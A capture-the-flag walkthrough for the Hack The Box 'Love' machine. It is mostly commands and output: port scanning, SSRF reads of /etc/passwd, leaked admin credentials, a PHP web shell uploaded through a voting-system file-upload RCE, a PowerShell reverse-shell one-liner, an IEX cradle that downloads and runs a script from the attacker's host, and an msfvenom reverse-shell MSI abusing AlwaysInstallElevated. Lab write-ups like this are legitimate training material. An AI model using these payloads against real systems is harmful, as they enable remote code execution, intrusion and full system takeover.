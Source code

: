 ### 09-Feb-24-Fri

[Love](https://app.hackthebox.com/machines/Love)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0389d886-6713-4860-9ce3-9b4247972d27)

*Credits - https://www.youtube.com/@ippsec https://youtu.be/V_7ubkfnPK4*

```
sudo nmap -p- --min-rate 10000 -v -oA love-allports 10.129.207.242
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/075752d7-4e81-42fa-9907-82baaa8168e2)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7ed88496-e193-4825-9d23-c4fc4f288af9)

```
echo "10.129.207.242 www.love.htb staging.love.htb" |sudo tee -a /etc/hosts
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9940c422-33dd-4565-8b40-0a1260598ce7)

http://www.love.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/040f4e17-35cc-4df9-8606-bd32d2b5a2ae)

http://staging.love.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a5c6346c-2d0c-4012-a4c0-7a8dc4656f42)

http://staging.love.htb/beta.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/db3c87a8-82f7-442f-82f2-416574f07381)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c3159106-8042-481d-9517-df387a6ee63c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/3222eb55-9e79-452d-a356-2fd0d20eb3f7)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/910c7c22-f9a5-40a2-a560-f7b0faf58734)

```
file:///etc/passwd
```

```
127.0.0.1/etc/passwd
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4f12e8ea-9c6b-45be-9553-5483d7206b65)

```
http://127.0.0.1
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4ca88ffa-d065-4f9c-9817-3c9772640bdf)

```
http://127.0.0.1:5000
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/60fc7774-ea0a-4082-8c01-f523c8155e9c)

```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

```
admin
```

```
@LoveIsInTheAir!!!!
```

[Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution) - PHP webapps Exploit](https://www.exploit-db.com/exploits/49445)

```
searchsploit -m 49445
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b26d2cb0-02ee-4951-9269-d4fb426d6812)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4b23a210-b096-49ed-98bf-b687c60dd886)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b65610dd-31d3-4e2c-bde8-5e9bcb83e594)

http://www.love.htb/admin/

http://www.love.htb/admin/home.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7580ea29-e333-4f88-883c-b23f0566b1e8)

http://www.love.htb/admin/voters.php

*Credits --> https://medium.com/@joemcfarland/hack-the-box-love-writeup-d58982ffa4ec*

```
------WebKitFormBoundaryM93O7d6XpEp6S0dP
Content-Disposition: form-data; name="photo"; filename="haxez.php"
Content-Type: image/jpeg
<?php system($_REQUEST["cmd"]); ?>
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/210c2d49-945b-4dd5-b732-766862cd2b5d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b6f74463-7788-483a-a083-3f72f1dde6b8)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b4f82c71-8222-46f3-8230-ee7b017c1b4e)

GET /images/haxez.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5c8c2b98-ba08-4d9e-b68e-d97147f5794c)

http://www.love.htb/images/haxez.php

http://www.love.htb/images/haxez.php?cmd=whoami

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2562d888-0043-4042-9499-b3a03de1b9d9)

```
love\phoebe
```

view-source:http://www.love.htb/images/haxez.php?cmd=dir

```
------WebKitFormBoundaryM93O7d6XpEp6S0dP
Content-Disposition: form-data; name="photo"; filename="haxez.php"
Content-Type: image/jpeg
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\xampp\htdocs\omrs\images

02/09/2024  09:42 PM    <DIR>          .
02/09/2024  09:42 PM    <DIR>          ..
05/18/2018  07:10 AM             4,240 facebook-profile-image.jpeg
02/09/2024  09:42 PM               167 haxez.php
04/12/2021  02:53 PM                 0 index.html.txt
01/26/2021  11:08 PM               844 index.jpeg
08/24/2017  03:00 AM            26,644 profile.jpg
               5 File(s)         31,895 bytes
               2 Dir(s)   4,133,908,480 bytes free
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bafb2c0e-72fd-4087-aba3-06df2516bb07)

view-source:http://www.love.htb/images/haxez.php?cmd=dir%20C:\Users\phoebe\Desktop

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d6cee341-55d9-418f-8ed4-1c88268339a9)

view-source:http://www.love.htb/images/haxez.php?cmd=type%20C:\Users\phoebe\Desktop\user.txt

```
7ae38e758d2376ef611d1e7a730b2d21
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ca9e7228-0129-4641-b8de-e55fdbcb32bf)

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.20/hax.ps1')"
```

http://www.love.htb/images/haxez.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.20/hax.ps1')"

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd227268-13ae-4642-abff-ca0b2f2223e6)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1ec3e109-917f-4518-9f71-ef2a75a49ae3)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/409aecae-9bd9-47b1-b451-d8b16f8dc289)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fdb33817-9b86-4a1a-ab4d-8de801358047)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b074e1fc-0b1a-4a59-b96a-f33ecdbbadaf)

```
curl 10.10.16.20:8000/winPEASany_ofs.exe -o C:/Users/Public/win.exe
```

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/037c5138-c7a5-46f3-ab72-ddab56ac9b5e)

```
get-applockerpolicy -effective | select -expandproperty rulecollections
```

```
PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : b7af7102-efde-4369-8a89-7a6a392d1473
Name                : (Default Rule) All digitally signed Windows Installer files
Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\Installer\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 5b290184-345a-4453-b184-45305f6d9a54
Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
Description         : Allows members of the Everyone group to run all Windows Installer files located in 
                      %systemdrive%\Windows\Installer.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*.*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
Name                : (Default Rule) All Windows Installer files
Description         : Allows members of the local Administrators group to run all Windows Installer files.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PathConditions      : {%OSDRIVE%\*}
PathExceptions      : {%OSDRIVE%\Administration\*}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 7eadbece-51d4-4c8b-9ab5-39faed1bd93e
Name                : %OSDRIVE%\*
Description         : 
UserOrGroupSid      : S-1-1-0
Action              : Deny

PathConditions      : {%OSDRIVE%\Administration\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
Name                : %OSDRIVE%\Administration\*
Description         : 
UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
Action              : Allow
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.20 LPORT=443 -f msi -o reverse.msi
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b9d4f99b-de12-4acb-8a9f-31225b624e43)

```
wget 10.10.16.20/reverse.msi -o reverse.msi
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/962ab956-5eb5-496a-9605-71079f0a4ae5)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5a6fdb04-ed55-4dc6-a1a5-866a1b5e3abe)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1a2a161e-9c9f-4d47-901c-98cb3008d7f1)

```
2352ff7a80b39e926181927760a724f5
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/31070ee6-6b49-4012-b775-f548e5465bce)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1edf6353-d4c2-4b88-9fb0-e6f13ef2d4ca)
